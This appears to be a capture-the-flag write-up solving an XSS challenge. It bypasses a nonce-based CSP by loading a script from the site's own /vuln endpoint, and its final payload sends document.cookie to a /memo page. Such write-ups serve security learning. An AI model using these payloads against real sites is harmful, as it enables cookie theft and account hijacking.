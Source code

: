 # solution

First, this challenge is literally XSS. But we need to bypass this csp filter:
![alt text](image.png)<br>
Hmm, so we need to xss in dreamhack'server. I try this payload on **/vuln?param**

```
<script%20src=%27/vuln?param=alert(1)%27)></script>
```

![alt text](image-1.png)<br>
hmm, why i choose this payload cause you cannot use normal payload like

```
<script>alert(1)</script>
```

cause we don't know the value of **nonce** and the attribute **script self** mean that the server will execute code inside script. Oke, we find the vulnerability site.
![alt text](image-2.png)<br>
So the idea is we need to put a malicious payload into /flag url then somehow point to /memo cause we need to the value of flag (document.cookie). Remember to encode "+" to %2B.

```
<script src="/vuln?param=document.location='/memo?memo='%2Bdocument.cookie"></script>
```

and get the flag.
![alt text](image-3.png)<br>
